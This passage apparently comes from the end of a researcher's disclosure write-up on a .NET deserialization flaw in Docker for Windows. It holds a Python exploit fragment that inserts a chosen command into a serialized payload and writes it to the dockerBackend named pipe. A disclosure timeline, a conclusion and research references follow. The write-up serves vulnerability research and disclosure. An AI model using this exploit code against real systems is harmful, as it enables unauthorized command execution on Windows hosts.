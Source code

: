 ```python

# now we patch our payload
data = bytearray(payload)

# patch the size
data[655:655] = struct.pack(">I", len(cmd))

# patch the cmd
data[659:659] = cmd

# get the size to send
size = struct.pack("<I", len(data))

np = open(r'\\.\pipe\dockerBackend', 'w+b')

# exploit!
np.write(size)
np.write(data)

# clean up
np.close()
```

### Timeline

<div markdown="1" class="cn">
- 2018-03-06 – Verified and sent to the [Zero Day Initiative](https://www.zerodayinitiative.com/).
- ...
</div>

### Conclusion

<p class="cn">These vulnerabilities are easy to find and easy to exploit. I suspect that .net deserialization vulnerabilities will become more prevelient as researchers discover the high availability of .net in third party applications. The tools are already here for researchers and attackers to discover them and like thier Java counterpart, I beleieve they will impact a wide variety of third party Windows software, esspecially in the enterprise space.</p>

### References

<div markdown="1" class="cn">
- [https://media.blackhat.com/bh-us-12/Briefings/Forshaw/BH_US_12_Forshaw_Are_You_My_Type_Slides.pdf](https://media.blackhat.com/bh-us-12/Briefings/Forshaw/BH_US_12_Forshaw_Are_You_My_Type_Slides.pdf)
- [https://speakerdeck.com/pwntester/attacking-net-serialization](https://speakerdeck.com/pwntester/attacking-net-serialization)
</div>

[docker]: https://www.docker.com/docker-windows
[ysoserial.net]: https://github.com/pwntester/ysoserial.net
[@tiraniddo's]: https://twitter.com/tiraniddo